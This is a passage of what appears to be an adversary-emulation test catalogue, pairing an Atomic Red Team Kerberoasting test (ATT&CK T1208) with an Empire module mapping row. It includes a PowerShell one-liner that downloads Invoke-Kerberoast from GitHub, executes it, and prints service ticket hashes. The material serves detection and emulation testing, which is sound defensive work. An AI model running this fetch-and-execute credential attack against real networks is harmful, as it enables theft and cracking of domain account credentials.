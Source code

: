 ```json
                                                                            '(https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)\n'
                                                                            '[Invoke-Kerberoast '
                                                                            'source] '
                                                                            '(https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)\n'
                                                                            'when '
                                                                            'executed '
                                                                            'successfully '
                                                                            ', '
                                                                            'the '
                                                                            'test '
                                                                            'displays '
                                                                            'available '
                                                                            'services '
                                                                            'with '
                                                                            'their '
                                                                            'hashes. \n'
                                                                            'If '
                                                                            'the '
                                                                            'testing '
                                                                            'domain '
                                                                            "doesn't "
                                                                            'have '
                                                                            'any '
                                                                            'service '
                                                                            'principal '
                                                                            'name '
                                                                            'configured, '
                                                                            'there '
                                                                            'is '
                                                                            'no '
                                                                            'output \n',
                                                             'executor': {'command': 'iex(iwr '
                                                                                     'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
                                                                                     'Invoke-Kerberoast '
                                                                                     '| '
                                                                                     'fl\n',
                                                                          'elevation_required': False,
                                                                          'name': 'powershell'},
                                                             'name': 'Request '
                                                                     'for '
                                                                     'service '
                                                                     'tickets',
                                                             'supported_platforms': ['windows']}],
                                           'attack_technique': 'T1208',
                                           'display_name': 'Kerberoasting'}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1208',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/credentials/invoke_kerberoast":  '
                                                                                 '["T1208"],',
                                            'Empire Module': 'powershell/credentials/invoke_kerberoast',
                                            'Technique': 'Kerberoasting'}}]
```
